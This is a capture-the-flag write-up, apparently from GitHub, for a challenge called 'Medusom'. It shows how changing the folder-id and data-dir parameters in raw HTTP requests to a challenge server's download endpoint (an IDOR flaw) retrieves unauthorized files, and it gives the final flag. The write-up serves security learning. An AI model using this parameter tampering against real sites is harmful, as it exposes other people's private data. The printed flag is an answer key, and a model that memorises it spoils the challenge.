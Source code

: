 # Medusom [part 1] - Write up

I don't have screenshots for this challenge, (I'm sorry 😥) so I will try my best to explain it !

For this challenge, we need to attack a website to download some data that we are not authorized to see. <br>
To do that, we will exploit an IDOR (Insecure Direct Object Reference).

When we click on "download" for an authorized file, a POST request with several parameters is made :
- <strong>explorer</strong>
- <strong>file-download</strong> #boolean : we give it the value "true" for download a file
- <strong>folder-id</strong> #the id of the folder
- <strong>data-dir</strong> #the file we're interested in

```
POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md
```

Just after that, a GET request is made with the same parameters :

```
GET /ajax/listing-post?file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

To exploit the vulnerability, we just need to change the folder-id and the data-dir parameters to download the files of our choice 😀

<br>

The files that we want to download are in the folder id 11 and their names are :
<strong>
- flag.txt
- NOTES.txt
- map.png
- NOTES.txt
- RECAP.pdf
- requests
- Skiblili.odt
- code.zip
- ._lock.Skiblili.odt#
</strong>


We are going to download them one by one, by modifying the value of the folder-id parameter by <em>11</em> and the value of the data-dir parameter by the different filenames that I wrote.

So for the requests, we will have something like that for all the files we want :

```
POST :

POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=11&data-dir=PATH\TO\FILE.extension

GET :

GET /ajax/listing-post?file-download=true&folder-id=11&data-dir=PATH\TO\FILE.extension HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

There is however one subtility for the file <strong><em>._lock.Skiblili.odt#</em></strong> :<br>

Because of the <strong>#</strong> at the end of the filename, we first need to URL encode it :

![Sans titre](https://user-images.githubusercontent.com/66923124/164997569-897b07e5-400a-4e32-94ed-0c3cfcefa661.png)

<strong>So data-dir=%2e%5f%6c%6f%63%6b%2e%53%6b%69%62%6c%69%6c%69%2e%6f%64%74%23 for this file </strong>

<br>

After we downloaded all the files, we need to read them !

![files](https://user-images.githubusercontent.com/66923124/164997733-47d0c367-2178-48e8-a2b0-e68fcf607662.png)

<strong>flag.txt is a troll :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997796-463f9c60-ab16-4ea8-97be-16ccb870b5a0.png)

<strong>NOTES.txt is the first part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997815-b8a93a20-385d-491a-83b6-af6ee43f7751.png)

<strong>RECAP.pdf is the second part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997851-8f7769aa-17f8-4882-8805-5f3340df89a4.png)

<strong>map.png is the third part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997888-f01220d6-857f-491a-98ef-68c60460747d.png)

<strong>In code.zip, there is a file named code.txt, which is the last part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997950-abce7f23-85d7-42f0-b2e5-722f40e6dd6f.png)


After we concatenate all the four strings we obtain the flag :

<strong> FLAG : MCTF{1D0R_f0r_th3_w1n} </strong>
